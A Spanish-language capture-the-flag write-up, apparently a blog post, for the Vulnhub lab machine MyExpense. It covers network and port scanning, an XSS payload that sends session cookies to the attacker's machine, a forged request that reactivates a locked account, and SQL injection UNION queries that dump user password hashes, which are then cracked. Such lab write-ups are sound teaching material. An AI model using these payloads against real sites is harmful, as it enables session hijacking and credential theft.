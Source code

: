 ```yaml
---
title: MyExpense | CTF Writeup - Vulnhub
date: 2024-03-11 11:32:00 +/-TTTT
categories: [PENTESTING, CTF]
tags: [vulnhub, writeup, xss, csrf, sqli]    
---
```


# MyExpense

>Para esta máquina, contamos con unas credenciales de un empleado que se llama Samuel. Su usuario (`slamotte`) se encuentra bloqueado en la web, por tanto, deberemos intentar iniciar sesión como Samuel y aprobar un pago que la compañía no realizó.
>Primeramente, para la etapa de enumeración, escaneamos nuestra red local. La IP de la máquina víctima es la 192.168.216.146.

```shell
> arp-scan -I ens33 --localnet

Interface: ens33, type: EN10MB, MAC: 00:0c:29:85:8e:61, IPv4: 192.168.216.133
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.216.1	00:50:56:c0:00:08	VMware, Inc.
192.168.216.2	00:50:56:e2:11:a1	VMware, Inc.
192.168.216.146	00:0c:29:6b:78:11	VMware, Inc.
192.168.216.254	00:50:56:e7:c0:0d	VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 1.916 seconds (133.61 hosts/sec). 4 responded

> export IP=192.168.216.146
```

>Procedemos a escanear puertos y versiones con `nmap`.

```shell
> nmap -sS -p- --open -Pn -n -vv -oN scan.txt $IP

Nmap scan report for 192.168.216.146
Host is up, received arp-response (0.00069s latency).
Scanned at 2024-01-05 16:03:43 -03 for 1s
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 64
39899/tcp open  unknown syn-ack ttl 64
40211/tcp open  unknown syn-ack ttl 64
44469/tcp open  unknown syn-ack ttl 64
53053/tcp open  unknown syn-ack ttl 64
MAC Address: 00:0C:29:6B:78:11 (VMware)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Jan  5 16:03:44 2024 -- 1 IP address (1 host up) scanned in 1.18 seconds
```

```shell
> nmap -sCV -p80,39899,40211,44469,53053 -oN services_scan $IP

Nmap scan report for 192.168.216.146
Host is up (0.00021s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/admin/admin.php
|_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
39899/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
40211/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
44469/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
53053/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
MAC Address: 00:0C:29:6B:78:11 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan  5 16:04:55 2024 -- 1 IP address (1 host up) scanned in 6.73 seconds
```

>Vemos que nos reporta un directorio interesante en el puerto 80. Podemos aplicar un script básico de reconocimiento como el http-enum en `nmap`.

```shell
> nmap --script http-enum -p80,39899,40211,44469,53053 $IP

Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-05 16:05 -03
Nmap scan report for 192.168.216.146
Host is up (0.00032s latency).

PORT      STATE SERVICE
80/tcp    open  http
| http-enum: 
|   /admin/admin.php: Possible admin folder
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file
39899/tcp open  unknown
40211/tcp open  unknown
44469/tcp open  unknown
53053/tcp open  unknown
MAC Address: 00:0C:29:6B:78:11 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 1.18 seconds
```

>Si entramos a la web, nos podemos encontrar con algo interesante.

![1.png]({%link assets/img/myexpense/1.png%})

>Si nos vamos a la sección de login, veremos que no nos dejará iniciar sesión como el usuario `slamotte` dado que la compañía le bloqueó el acceso. Sin embargo, podemos crear una cuenta. En este punto, podemos intentar inyectar código JavaScript malicioso que nos envíe una petición a nuestra máquina de atacantes para verificar si se acontece una XSS.

![2.png]({%link assets/img/myexpense/2.png%})

>Levantamos un servidor HTTP con python en la línea de comandos.

![3.png]({%link assets/img/myexpense/3.png%})

>Como se está cargando el recurso, intentamos realizar un Cookie Hijacking mediante el empleo de peticiones HTTP cargadas desde nuestro recurso.

```javascript
var req = new XMLHttpRequest();
req.open("GET", "http://192.168.216.133/?cookie=" + document.cookie);
req.send();
```

>Levantamos nuevamente el servidor HTTP y vemos las siguientes peticiones:

![4.png]({%link assets/img/myexpense/4.png%})

>En este punto, si intentamos secuestrar la sesión del usuario que esté administrando la página, no podremos dado que nos saltará un error. Lo que sí podemos intentar es modificar el archivo pwned.js para que active la cuenta de Samuel. Para ello, simplemente hacemos hovering en los estados de las cuentas en el panel de `http://192.168.216.146/admin/admin.php`, y nos fijamos en la cuenta de Samuel. 

```javascript
var req = new XMLHttpRequest();
req.open("GET", "http://192.168.216.146/admin/admin.php?id=11&status=active");
req.send();
```

>Ahora esperamos e intentamos iniciar sesión como `slamotte`.  Procedemos y vemos que podemos entrar.

![5.png]({%link assets/img/myexpense/5.png%})

>Enviamos nuestro reporte a nuestro manager.

![6.png]({%link assets/img/myexpense/6.png%})

>Si nos vamos a nuestra cuenta, veremos que nuestro manager es Manon Riviere, y es curiosamente una de las personas que se encuentra interactuando en el chat de la página Home.

![7.png]({%link assets/img/myexpense/7.png%})

>Si intentamos colar nuevamente nuestro script:

![8.png]({%link assets/img/myexpense/8.png%})

![9.png]({%link assets/img/myexpense/9.png%})

>Vemos que nos llegan distintas cookies de sesión. Probamos todas y llegamos a secuestrar la sesión de Manon Riviere.

![10.png]({%link assets/img/myexpense/10.png%})

>Aprobamos el reporte de Samuel:

![11.png]({%link assets/img/myexpense/11.png%})

>Sin embargo, vemos que todavía tenemos un cargo ejecutivo arriba nuestro. Deberemos de ganar acceso a la cuenta de Paul Baudouin, que es nuestro manager.

![[Captura de pantalla (130).png]]({%link assets/img/myexpense/12.png%})

>Si nos vamos a la sección de Rennes, vemos lo siguiente:

![[Captura de pantalla (131).png]]({%link assets/img/myexpense/13.png%})

>La URL tiene un parámetro que llama la atención a simple vista. Podemos intentar comentar el resto de la query si se tratase de una SQL Injection.

![[Captura de pantalla (132).png]]({%link assets/img/myexpense/14.png%})

>Vemos que efectivamente se acontece una SQL Injection. Intentamos enumerar la cantidad de columnas siendo utilizadas para posteriormente realizar un `UNION SELECT` attack. Probamos con ` UNION SELECT NULL,NULL--`.

![[Captura de pantalla (133) 1.png]]({%link assets/img/myexpense/15.png%})

>Intentamos ver la base de datos siendo utilizada:

![[Captura de pantalla (134).png]]({%link assets/img/myexpense/16.png%})

>Enumeramos todas las bases de datos con `UNION SELECT schema_name,null FROM information_schema.schemata-- -`:

![[Captura de pantalla (135).png]]({%link assets/img/myexpense/17.png%})

>De similar manera, enumeramos las tablas con la query `UNION SELECT table_name,null FROM information_schema.tables WHERE table_schema="myexpense"-- -`:

![[Captura de pantalla (136).png]]({%link assets/img/myexpense/18.png%})

>Seleccionamos la tabla user y enumeramos columnas con la query `UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema="myexpense" AND table_name="user"-- -`:

![[Captura de pantalla (137).png]]({%link assets/img/myexpense/19.png%})

>Solo nos falta enumerar usuarios y contraseñas. Vemos que las contraseñas están todas hasheadas. Particularmente, nos interesa la del usuario Paulo Baudouin (`pbaudouin`).

![[Captura de pantalla (138).png]]({%link assets/img/myexpense/20.png%})

>Procedemos a crackearla con la web [Hashes](https://hashes.com). 

![[Captura de pantalla (141).png]]({%link assets/img/myexpense/21.png%})

>¡Listo! Iniciamos sesión como el usuario `pbaudouin`.

![[Captura de pantalla (142).png]]({%link assets/img/myexpense/22.png%})

>Aprobamos el pago:

![[Captura de pantalla (143).png]]({%link assets/img/myexpense/23.png%})

>Volvemos a iniciar sesión como Samuel y voilà, ahí está la flag.

![[Captura de pantalla (144).png]]({%link assets/img/myexpense/24.png%})

